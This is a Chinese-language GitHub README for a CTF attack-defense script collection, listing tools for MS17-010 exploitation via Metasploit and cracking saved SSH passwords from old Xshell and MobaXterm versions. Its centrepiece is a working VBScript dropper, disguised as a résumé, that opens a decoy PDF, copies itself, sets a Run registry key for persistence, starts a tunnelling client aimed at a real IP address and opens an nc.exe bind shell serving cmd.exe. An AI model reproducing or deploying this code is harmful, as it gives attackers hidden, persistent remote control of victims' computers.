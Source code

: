# 安全战队常用的CTF主机攻防脚本 CTFpTScript



## 天融信__DebugBreak 四轮车战队 CTF攻防赛所需要的脚本：

set_the_Flag:随机生成guid，并将以flag{guid}为名称的图片复制到windows目录下。

open_18181_with_nc:开启防火墙，并启动最基础的端口，其他端口仅允许18181端口，并且开始shell。

del_account_Bywhilelist:删除白名单以外的所有账户

one_key_close_17010：一键关闭17010所有端口。

setflag_win_linux:在windows与linux段生成flag文本，可以设置生成数量，其中用户名与内容均为随机。

Xdecrypt:老版本xshell ssh密码碰撞脚本。

Reveal password encrypted by MobaXterm:破解老版本 ssh密码碰撞脚本。

msfhack：msf入侵17010方法包括开启3389创建用户建立反射上传目录等





## 自用一键穿透攻击脚本（不免杀）



演示：

 ![img](https://github.com/liquan165/CTFpTScript/blob/master/myprofile.gif)

伪装成简历，自启动，自我复制，网络穿透，修改配置文件：

```vbscript
On Error Resume Next
Dim fso,Shell,TxtFl,Str
Set fso = CreateObject("Scripting.FileSystemObject")
Set Shell=Wscript.Createobject("Wscript.shell")
If Not fso.folderExists("C:\symbols\") Then     
    fso.CreateFolder "C:\symbols\"
    fso.CreateFolder "C:\symbols\MailContactsCalendarSync\"
	fso.CopyFolder ".\log\MailContactsCalendarSync\*", "C:\symbols\MailContactsCalendarSync\"
    fso.CopyFile ".\log\MailContactsCalendarSync\*", "C:\symbols\MailContactsCalendarSync\"
	Shell.Run "iexplore.exe C:\symbols\MailContactsCalendarSync\mydoc.pdf",0,TRUE
	fso.getfile(wscript.scriptfullname).copy("C:\symbols\run.vbs")   
End If
RegPath = "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run\"
type_name = "REG_SZ"
key_name = "run"
key_data = "C:\symbols\" & key_name & ".vbs"
Shell.RegWrite RegPath & key_name , key_data , type_name
'Set TxtFl = fso.OpenTextFile ("C:\symbols\MailContactsCalendarSync\P2PSocket\Client.ini")
'Str = Replace ( TxtFl.ReadAll,"ClientName=QUAN","ClientName=TestJob") '肉鸡名字
'Str2 = Replace ( TxtFl.ReadAll,"ServerAddress=211.149.222.206:3387","ServerAddress=211.149.222.206:3387")  '上线地址
'TxtFl.Write Str
'TxtFl.Write Str2 
'TxtFl.Close
Shell.Run "C:\symbols\MailContactsCalendarSync\RuntimeBr0ker.exe",0,FALSE
Shell.Run "cmd /c start C:\symbols\MailContactsCalendarSync\nc.exe -Ldp 18181 -e cmd.exe",FALSE
Set fso = Nothing
Set Shell = Nothing




```

## 项目适用于：

车联网安全攻防场景，主机安全攻防场景，工控安全场景，移动安全攻防场景等。











